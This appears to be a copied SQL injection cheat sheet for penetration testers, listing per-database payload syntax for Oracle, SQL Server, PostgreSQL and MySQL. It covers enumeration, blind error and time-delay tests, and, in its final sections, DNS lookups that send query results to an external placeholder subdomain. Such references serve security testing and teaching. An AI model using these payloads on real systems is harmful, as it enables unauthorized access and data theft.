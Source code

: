 # SQL injection cheat sheet

- This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation

- You can concatenate together multiple strings to make a single string.

        Oracle	'foo'||'bar'
        Microsoft	'foo'+'bar'
        PostgreSQL	'foo'||'bar'
        MySQL	'foo' 'bar' [Note the space between the two strings]
        CONCAT('foo','bar')

## Substring

- You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

        Oracle	SUBSTR('foobar', 4, 2)
        Microsoft	SUBSTRING('foobar', 4, 2)
        PostgreSQL	SUBSTRING('foobar', 4, 2)
        MySQL	SUBSTRING('foobar', 4, 2)

## Comments

- You can use comments to truncate a query and remove the portion of the original query that follows your input.

        Oracle	--comment
        Microsoft	--comment
        /*comment*/
        PostgreSQL	--comment
        /*comment*/
        MySQL	#comment
        -- comment [Note the space after the double dash]
        /*comment*/

## Database version

- You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

        Oracle	SELECT banner FROM v$version
        SELECT version FROM v$instance
        Microsoft	SELECT @@version
        PostgreSQL	SELECT version()
        MySQL	SELECT @@version

## Database contents

- You can list the tables that exist in the database, and the columns that those tables contain.

        Oracle	SELECT * FROM all_tables
        SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
        Microsoft	SELECT * FROM information_schema.tables
        SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
        PostgreSQL	SELECT * FROM information_schema.tables
        SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
        MySQL	SELECT * FROM information_schema.tables
        SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

## Conditional errors

- You can test a single boolean condition and trigger a database error if the condition is true.

        Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
        Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
        PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
        MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

## Batched (or stacked) queries

- You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

        Oracle	Does not support batched queries.
        Microsoft	QUERY-1-HERE; QUERY-2-HERE
        PostgreSQL	QUERY-1-HERE; QUERY-2-HERE
        MySQL	Does not support batched queries.

## Time delays

- You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

        Oracle	dbms_pipe.receive_message(('a'),10)
        Microsoft	WAITFOR DELAY '0:0:10'
        PostgreSQL	SELECT pg_sleep(10)
        MySQL	SELECT sleep(10)

## Conditional time delays

- You can test a single boolean condition and trigger a time delay if the condition is true.

        Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
        Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
        PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
        MySQL	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')

## DNS lookup

- You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

        Oracle	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
        SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual

        The following technique works on fully patched Oracle installations, but requires elevated privileges:
        SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
        Microsoft	exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'
        PostgreSQL	copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'
        MySQL	The following techniques work on Windows only:
        LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')
        SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'

## DNS lookup with data exfiltration

- You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

        Oracle	SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
        Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
        PostgreSQL	create OR replace function f() returns void as $$
        declare c text;
        declare p text;
        begin
        SELECT into p (SELECT YOUR-QUERY-HERE);
        c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
        execute c;
        END;
        $$ language plpgsql security definer;
        SELECT f();
        MySQL	The following technique works on Windows only:
        SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'

